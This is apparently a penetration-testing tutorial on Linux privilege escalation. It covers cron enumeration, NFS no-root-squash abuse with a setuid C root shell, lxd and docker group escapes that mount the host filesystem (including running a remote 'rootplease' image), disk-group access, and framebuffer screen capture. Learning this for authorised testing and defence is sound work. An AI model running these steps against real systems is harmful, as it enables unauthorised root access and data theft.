 # Linux Privilege Escalation

### Cron Jobs

Viewing `/etc/crontab` is of course the classic.  The cron job format is in the following:

```
<minute> <hour> <day of month> <month> <day of week> <user> <command>
```

Ideally we'll have a vulnerable command being run that we can then exploit.  The following files and commands are worth enumerating to see if anything's been misconfigured or the cron itself is visible publicly.

```
crontab -l
ls -alh /var/spool/cron
ls -al /etc/ | grep cron
ls -al /etc/cron*
cat /etc/cron*
cat /etc/at.allow
cat /etc/at.deny
cat /etc/cron.allow
cat /etc/cron.deny
cat /etc/crontab
cat /etc/anacrontab
cat /var/spool/cron/crontabs/root
```

In some situation, cron jobs may be hidden from all users, in a users own crontab.  Running the below script will parse the active processes every second and output any changes, which may indicate a hidden cron job.

```bash
#!/bin/bash
IFS=$'\n'

old=$(ps -eo command)
while true; do
  new=$(ps -eo command)
  diff <( echo "$old" ) <( echo "$new" )
  sleep 1
  old=$new
done
```

If the above fails to find anything, then the process may be too short lived to find.  In this case, [Dominic Breuker's pspy](https://github.com/DominicBreuker/pspy) will allow more focused enumeration.  Ideally a writeable file or script may form part of the cron jobs execution.

It is highly recommended to refer to the bible of Linux wildcard injection: [Unix Wildcards Gone Wild](https://www.defensecode.com/public/DefenseCode_Unix_WildCards_Gone_Wild.txt) if the running processes utilizes wildcards.  This is quite common in CTF's as well as real-world systems.

### NFS Share

If you find that a machine has a NFS share you might be able to use that to escalate privileges.

```
# First check if the target machine has any NFS shares
showmount -e 192.168.1.101

# If it does, then mount it to your filesystem
mount 192.168.1.101:/ /tmp/
```

#### no-user-squash

#### no-root-sqash

If you have write privileges you can create files. Test if you can create files, then check with your low-priv shell what user has created that file. If it says that it is the root-user that has created the file it is good news. Then you can create a file and set it with suid-permission from your attacking machine. And then execute it with your low privilege shell.

This code can be compiled and added to the share. Before executing it by your low-priv user make sure to set the suid-bit on it, like this:

```bash
chmod 4777 exploit
```

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main( int argc, char *argv[] )
{
    setreuid(0, 0);
    printf("ID: %d\n", geteuid());
    execve("/bin/sh", NULL, NULL);
}
```

You could also just generate a binary using msfvenom if desired, but this will require the `PrependSetuid=True` if spawning a `/bin/bash` shell.

### Abusing Excessive Groups

Often you'll find that a user has been made a member of a group that it needn't be a part of.  From this you can abuse this to either leak information or compromise the system in unintended ways.

When first enumerating a group, see what it can access and what special permissions may be afforded it as so:

```
find / -group groupname 2>/dev/null
```

Secondly, it's probably a good idea to refer to the [Debian Recommendations](https://wiki.debian.org/SystemGroups).

##### adm

The admin group, adm, allows the user to view logs in `/var/log`.  Whilst this is not directly exploitable, it can be used to leak sensitive information, such as user actions, vulnerable applications and any potentially hidden cron-jobs.

##### lxd

If a member of the lxd gorup, the user can use this to escalate to root, and potentially escape any containers it is a member of.

```bash
ubuntu@ubuntu:~$ lxc init ubuntu:16.04 test -c security.privileged=true 
Creating test 
ubuntu@ubuntu:~$ lxc config device add test whatever disk source=/ path=/mnt/root recursive=true 
Device whatever added to test 
ubuntu@ubuntu:~$ lxc start test 
ubuntu@ubuntu:~$ lxc exec test bash
```

While you won't be able to run arbitrary code on the host directly, you can write and read any file with root privileges, allowing you to, for example, write a new root password in the /etc/shadow folder.

The [lxd-alpine-builder](https://github.com/saghul/lxd-alpine-builder) is ideal for engagements, as it's no larger than 4MB.

##### docker

In much the same vein as lxd, we can utilise the docker group to get full root privileges.

```
docker run -v /:/mnt/rootfs -i -t chrisfosterelli/rootplease
```

Similarly, we can use the [alpine](https://github.com/gliderlabs/docker-alpine/tree/2127169e2d9dcbb7ae8c7eca599affd2d61b49a7) docker image, if no useable containers are uploaded to the host.

##### disk

The disk group gives the user full access to any block devices contained within `/dev/`.  Since `/dev/sda1` will in general be the global file-system, and the disk group will have full read-write privileges to this device:

```
brw-rw---- 1 root disk 8, 1 Feb  5 13:38 /dev/sda1
```

From this we can use debugfs to enumerate the entire disk with effectively root level privileges.  We also have full read-write access to the disk block files, so we can extricate these or write arbitrary data to them.  With the disk group, we are effectively root, just in a roundabout way.

##### video

The video group controls access to graphical output devices.  The output to screen is stored within the [framebuffer](https://www.kernel.org/doc/Documentation/fb/framebuffer.txt), which can be dumped to disk and converted to an image, using the following [script](https://www.cnx-software.com/2010/07/18/how-to-do-a-framebuffer-screenshot/):

```perl
#!/usr/bin/perl -w

$w = shift || 240;
$h = shift || 320;
$pixels = $w * $h;

open OUT, "|pnmtopng" or die "Can't pipe pnmtopng: $!\n";

printf OUT "P6%d %d\n255\n", $w, $h;

while ((read STDIN, $raw, 2) and $pixels--) {
   $short = unpack('S', $raw);
   print OUT pack("C3",
      ($short & 0xf800) >> 8,
      ($short & 0x7e0) >> 3,
      ($short & 0x1f) << 3);
}

close OUT;
```

We can run the above script in the following manner:

```bash
cp /dev/fb0 /tmp/fb0.raw
width=$(cat /sys/class/graphics/fb0/virtual_size | cut -d, -f1)
height=$(cat /sys/class/graphics/fb0/virtual_size | cut -d, -f2)
./raw2png $width $height < /tmp/fb0.raw > /tmp/fb0.png
```

This isn't directly exploitable, but utilized correctly can allow you to view a user with physical access' session and potentially leak information this way.  On modern systems it's a slight pipe dream.

[Alternative Script](ftp://ftp.embeddedarm.com/ts-arm-sbc/ts-7350-linux/samples/bmptoraw.c)

